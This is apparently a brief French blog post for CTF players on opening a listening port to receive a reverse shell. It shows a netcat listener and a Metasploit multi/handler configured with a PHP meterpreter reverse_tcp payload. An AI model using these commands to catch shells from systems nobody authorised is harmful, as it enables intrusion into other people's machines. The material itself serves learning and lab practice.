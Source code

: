 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse shell', 'Se mettre sous écoute sur un port', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234 en utilisant le payload php
      msfconsole
			use exploit/multi/handler
			set payload php/meterpreter/reverse_tcp
			set LHOST @IP_kali
			set LPORT 1234
			run
  </code></pre> <br/>
     
---------------------------------------------

			
